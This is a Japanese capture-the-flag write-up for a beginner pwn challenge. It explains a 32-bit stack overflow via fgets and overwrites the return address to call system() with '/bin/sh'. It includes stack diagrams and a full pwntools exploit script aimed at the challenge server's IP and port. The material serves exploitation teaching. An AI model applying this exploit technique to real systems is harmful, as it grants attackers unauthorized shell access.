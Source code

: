 # pwn beginners 0x08

### 解法

* 32bit用バイナリ(x86)
* fgetsが使われているが、スタックバッファーオーバーフローが可能
* 上記の理由により、EIP(x86でのプログラムカウンタ名)を任意のアドレスに変えることができる。
* system関数があるが、引数がnull
* `/bin/sh`の文字列がデータ領域に存在する。

リターンアドレスをsystem関数呼び出しの直前に書き換え、  system関数の引数に`/bin/sh`文字列(へのポインタ)をセットできればシェルを起動できる。  
x86では関数呼び出しの際の第一引数はスタックの先頭に置く。


|入力前のスタック|
|:-----:|
|vuln関数の|
|スタックフレーム|
|同上|
|同上|
|main関数へのリターンアドレス|
|?????????|
|?????????|


|入力後のスタック|
|:-----:|
|AAAAAAAAA|
|AAAAAAAAA|
|AAAAAAAAA|
|AAAAAAAAA|
|systemへのアドレス|
|/bin/shへのポインタ|
|?????????|


|リターン後のスタック|
|:-----:|
|/bin/shへのポインタ(systemの第一引数)|
|?????????|


### exploit code
```python
from pwn import *

conn = remote("133.1.17.119", 15028)

system = 0x804854c
binsh = 0x80486ee

exp = "A" * (11 * 4)
exp += p32(system)
exp += p32(binsh)


conn.recvline()
conn.recvline()

conn.sendline(exp)
conn.interactive()
```


